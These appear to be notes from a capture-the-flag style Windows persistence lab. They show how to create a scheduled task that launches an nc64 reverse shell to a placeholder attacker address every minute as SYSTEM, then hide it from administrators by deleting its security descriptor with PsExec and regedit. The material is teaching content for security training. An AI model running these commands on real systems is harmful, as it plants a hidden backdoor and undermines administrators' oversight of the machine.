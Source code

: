 From the command line, you can use `schtasks` to interact with the task scheduler. A complete reference for the command can be found on [Microsoft's website](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks).

Let's create a task that runs a reverse shell every single minute. In a real-world scenario, you wouldn't want your payload to run so often.
```shell-session
C:\> schtasks /create /sc minute /mo 1 /tn {THM-TaskBackdoor} /tr "c:\tools\nc64 -e cmd.exe {ATTACKER_IP} {4449}" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.
```

This command will create a "THM-TaskBackdoor" task and execute an `nc64` reverse shell back to the attacker. The `/sc` and `/mo` options indicate that the task should be run every single minute. The `/ru` option indicates that the task will run with SYSTEM privileges.
```shell-session
C:\> schtasks /query /tn thm-taskbackdoor

Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
thm-taskbackdoor                         5/25/2022 8:08:00 AM   Ready
```

**Making Our Task Invisible:**
 To further hide our scheduled task, we can make it invisible to any user in the system by deleting its **Security Descriptor (SD)**. The security descriptor is simply an *ACL* that states which users have access to the scheduled task. Deleting the *SD* is equivalent to disallowing all users' access to the scheduled task, including administrators.

The security descriptors of all scheduled tasks are stored in: `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. 
You will find a registry key for every task, under which a value named "*SD*" contains the security descriptor. You can only erase the value if you hold SYSTEM privileges.

To hide our task, delete the *SD* value for the "THM-TaskBackdoor" task we created before. To do so, we will use `psexec` (available in `C:\tools`) to open Regedit with SYSTEM privileges:
```shell-session
C:\> c:\tools\pstools\PsExec64.exe -s -i regedit
```

We will then delete the security descriptor for our task:
	![[Pasted image 20240911024459.png]]

If we try to query our service again, the system will tell us there is no such task:
```
C:\> schtasks /query /tn thm-taskbackdoor ERROR: The system cannot find the file specified.
```
